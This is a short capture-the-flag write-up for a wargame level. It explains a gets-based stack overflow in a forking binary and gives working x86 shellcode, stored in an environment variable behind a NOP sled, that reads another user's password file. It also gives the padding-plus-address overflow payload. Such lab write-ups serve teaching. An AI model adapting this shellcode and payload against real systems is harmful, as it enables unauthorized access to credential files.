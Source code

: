 # Level04

## Reconnaissance

We have one security enabled:
- **RELRO Partial enabled** = GOT (Global Offset Table) placed were we cannot overflow

This binary does a fork at the beginning.
With gdb, we notice that the parent process checks if the child process is not call an `exec`
and the child process, ask for input with `gets`, so we can overwrite the return pointer of main there.

## Exploit

We gonna overwrite the pointer of main in the child process. The only issue is that the parent process 
monitor the child process, preventing us of call exec in the child process.
We gonna create a shellcode which is going to print the flag instead of opening a shell.

![stack](Ressources/stack.svg)

We put the shellcode in the env (`0xffffd7ae`): `export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x31\xc9\x31\xd2\x89\xe3\x6a\x05\x58\xcd\x80\x83\xec\x29\x89\xc3\x89\xe1\x6a\x29\x5a\x6a\x03\x58\xcd\x80\x6a\x01\x5b\x6a\x04\x58\xcd\x80"')` 

Payload => `python -c 'print "A" * 156 + "\xce\xd7\xff\xff"'`
